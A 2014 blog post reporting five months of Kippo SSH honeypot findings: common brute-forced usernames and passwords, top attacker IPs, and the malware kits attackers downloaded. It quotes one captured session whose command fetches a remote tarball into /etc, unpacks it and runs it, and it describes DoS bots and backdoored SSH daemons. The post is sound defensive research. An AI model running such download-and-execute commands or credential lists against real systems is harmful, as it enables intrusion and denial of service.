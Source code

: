 ```yaml
--- 
title: 'Running a Kippo Honeypot: Part two'
categories: 
- honeypot
- hacking
- ssh
- kippo
layout: post
date: 2014-04-27
---
```


Over a year has now passed since I [started playing](http://hackerific.net/2013/04/15/running-a-kippo-honeypot/) with the [Kippo](https://code.google.com/p/kippo/) honeypot, so a quick second post about my findings is _long_ overdue!

I ran Kippo on an overpriced cheap VPS with two-IPs pretty much continuously from between April and September 2013. That's 5 months (154 days). I wrote a short post near the beginning of that time. In my original post on this subject I waffled a bit about how almost all of the attacking traffic I saw was from Chinese IPs and mentioned a few attempted passwords with high entropy. In this post I want to summarise what I saw over the full 5 month period.

## Credentials

First, credentials. The honeypot was configured with a single user account `root` and the password `123456`.

In the time the honeypot was running, I logged 71,264 login attempts – about 463 per day (not all that many, really), and of those attempts 395 were successful.

The most attempted username was `root`, and sorted by number of attempts, the top ten usernames were:

    44193 root
      819 bin
      657 test
      554 oracle
      343 nagios
      240 user
      227 postgres
      189 guest
      187 admin
      157 apache
    
It's interesting that `oracle`, `nagios` and `postgres` all appear more frequently than `apache` or `www-data` (which is even further down the list). Could these indicate a general lack of good security practices on some database and monitoring servers? In that case, where's MySQL? 
    
Counts of password attempts were spread more evenly than usernames, and the most attempted passwords were `changeme`, `123456` and `password`. The list below shows the top ten:
    
    1661 changeme
    1475 123456
    1023 password
     930 1234
     839 abc123
     627 test
     599 12345
     420 123
     327 qwerty
     227 111111
     
This really has to be about the worst possible wordlist. In all, the logs contain login attempts with 6,122 distinct usernames and 18,561 different passwords.

### Strange credentials

I wrote about some of the higher entropy passwords in my last post, highlighting a few of the more interesting strings, but this time some were even more strange. 

Some of the password strings with the highest entropy, according to [Data::Password::Entropy](https://metacpan.org/pod/Data::Password::Entropy) are:

      khaled-dico-ana-wla-akhou-charmouta-feh-kess-ekhtak-bi-ayri-a5ou-a7beh
      sss!Qazxsw22243s2lakeprostsssz1,zPlastaicatraglake
      efwef58sdf2cvsd1*!#&$#_)claudia69iLiE
      Fum4tulP0@t3Uc1d3R4uD3T0t!@#$%^%^&*?
      khaled-dico-ana-wla-akhou-charmouta-tfeh-kess-ekhtak-bi-ayri-a5ou-a7beh
      1$EdkQIoSn$T3gzKLxlcxF7tsTCFqC8M
      209*7fdlkdf%0@)(fUF786__fdk^%^Djfdsahfdsf886D&S%*fd
      dragomirdumitru1q2w3e4r5tsfgdfhvd!Q@W#E$Rsdfdf
      B*(&%^#$SSH?M?a+k3f123!^*backIleSSH@q!@#D
      ortega.123#TradeLinuxKi!l|iN6#Th3h03$%nix@NdR3b!irD


Bizarre! I find it hard to believe that real-life systems are compromised using these passwords, so I suspect that as I said in my previous post they're either set by other tools, or perhaps they're some sort of strange meme which is gradually propagating through script kiddie's word lists. 

I also find the idea that they're '[vanity strings](http://rud.is/b/2012/06/28/honeypot-analytics/)' unlikely, but like the idea that there are thousands of Chinese script kiddies running SSH scanners solely to get into geek's blog posts. 

## Attacker's IPs

As before, Chinese IPs are dominant, but there's also a significant amount of traffic from South America and from cheap hosting companies elsewhere. Here's a list of the top ten individual IPs and country information:

    7129 219.235.230.197  China
    2978 218.85.135.29    China
    2230 218.200.117.241  China
    2153 61.145.121.83    China
    2153 177.86.68.2      Brazil
    2150 188.40.92.147    Germany
    1883 200.54.114.51    Chile
    1847 183.180.32.234   Japan
    1556 218.104.145.16   China
    1438 61.139.54.71     China

I don't think there's anything surprising there.

## Downloads & Sessions

There wasn't much download activity, which is interesting and probably indicates that lots of SSH scanners just run unattended on large blocks and their owners check the results later. Or it could indicate a lack of realism in my honeypot setup.

Over the entire time the honeypot was running there were 25 downloads in total. Most of these were tarballs of scanning tools, but four of the 25 were cachefly test files and Microsoft service packs. In these cases I think the attackers were probably intending to use the system in DoS attacks, and were using the big downloads to jude available bandwidth. 

Here's an example terminal session:

    wget http://cachefly.cachefly.net/100mb.test
    cd /etc; wget http://rootnr1.net76.net/shell.tgz; tar xvf shell.tgz; rm -rf shell.tgz; cd rc.9; chmod +x *
    ./go
    
… at this point kippo starts playing games with the user and they invariably log off but I still have the files to play with. In this case, the payload contains several shell and perl scripts and a lot of pre-compiled binaries, all of which are unpacked into a directory called `rc.9`.     

The perl scripts include [Hawker Hunter v2.0](http://pastebin.com/HVpaBr9u), an IRC bot with port scanning and DoS capabilities and another DoS tool which contains the string "GlobaL Team atack victim" (sic).

Running strings on the binaries reveals some interesting, if dated things. For example, one of the files `h` contains:

    Hide - Process Faker, by Schizoprenic Xnuxer Research (c) 2002
    
And another `stream` contains:

    stream.c v1.0 - TCP Packet Storm
    
Which, according to [this mailing list post](http://packetstormsecurity.com/files/10836/stream-dos.txt.html) from 2000 might exploit an old DoS vulnerability in FreeBSD, Solaris and Linux. It's not clear to me if this is still relevant on modern systems, and if not this payload could have been around for ages. In fact, one of the most noticeable aspects of the payloads I saw was their age; everything's old!.

## Shall we play a game?

Other payloads I saw included a couple of backdoored SSH daemons, one of which includes the amazingly named `openssh-3.6.1p2-backdoor.patch`, and a few different IRC bots and bouncers, such as PyBNC.

The contents of these other downloads are interesting enough to be the subject of another post (in another year?!), so I'll leave with this recorded terminal session:

<script type="text/javascript" src="https://asciinema.org/a/8346.js" id="asciicast-8346" async></script>








    

